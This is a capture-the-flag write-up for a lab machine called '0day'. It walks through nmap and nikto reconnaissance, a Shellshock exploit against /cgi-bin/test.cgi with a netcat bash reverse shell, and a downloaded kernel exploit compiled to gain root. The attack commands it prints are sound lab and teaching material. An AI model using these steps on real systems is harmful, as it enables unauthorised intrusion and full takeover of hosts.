










# 0day: CTF Solution Write-up - Target "0day"

---

## 🔎 Phase 1: Reconnaissance and Enumeration

### Port Scanning (Nmap)

We perform a thorough port scan to identify open ports, using a high minimum rate for speed.

nmap -p- --open -sS --min-rate 5000 -n -Pn <IP>

We confirm open ports (22 and 80) and proceed with a detailed version and service scan.
Bash

nmap -p22,80 -sCV <IP> -oN targeted

Directory Scanning (FFUF)

We run a simple FFUF scan to look for hidden directories.
Bash

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ

 

We detect the /cgi-bin/ directory but do not have direct access (403 Forbidden).

Vulnerability Scanning (Nikto)

We execute a Nikto scan to identify known vulnerabilities in the web services.
Bash

nikto -h <IP>

The scan suggests that the script /cgi-bin/test.cgi may be vulnerable to Shellshock.

💥 Phase 2: Gaining Access

Exploit Search (Searchsploit)

We search for Shellshock exploits, focusing on the Apache web server as identified by Nikto.
Bash

searchsploit shellshock

We select the Apache remote code injection exploit (ID 34900).

We copy the exploit to our working directory:
Bash

searchsploit -m linux/remote/34900.py

Exploit Execution and Reverse Shell

We analyze the script and execute it with a Netcat reverse shell payload.

    Step 1: Netcat Listener

    Open a Netcat listener session on our attacking host:
    Bash

nc -nvlp 4444

Step 2: Exploit Execution (Attacking Machine)
Bash

python2.7 34900.py payload=reverse rhost=<IP victim machine> lhost=<IP> lport=443

Step 3: Stable TTY Shell (Victim Machine)

From the initial shell, we execute a bash command to get a more stable shell on our Netcat listener (port 4444):
Bash

    bash -i &> /dev/tcp/<IP>/4444 0>&1

    

This grants us an interactive shell.

User Flag

The user flag is found in the /home/ryan directory.

👑 Phase 3: Privilege Escalation (Privesc)

System Analysis

We observe that the /tmp directory has broad permissions, allowing us to download files—a good starting point for privesc.

We check the kernel version for known vulnerabilities:
Bash

uname -a

A quick search on ExploitDB reveals a privilege escalation exploit for this specific kernel version.

Exploit Compilation and Execution

    Step 1: Download Exploit

    Start a simple HTTP server on our attacking machine:
    Bash

python3 -m http.server 80

Download the exploit file (37292.c) to the /tmp directory on the victim machine using wget. 

Step 2: Compilation and PATH Adjustment

We attempt to compile the script:
Bash

gcc 37292.c -o exploit

If gcc is not found, we confirm its existence and temporarily adjust the PATH variable to include standard binary directories:
Bash

which gcc
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin:/usr/sbin:/sbin:$PATH

We re-run the compilation: 

Step 3: Execute and Gain Root

Execute the compiled binary:
Bash

    ./exploit

    We successfully escalate privileges to the root user. 

Root Flag

Finally, we retrieve the root flag.
Bash

cat /root/root*

Thank you for reading! This write-up documents the path to root on this target.
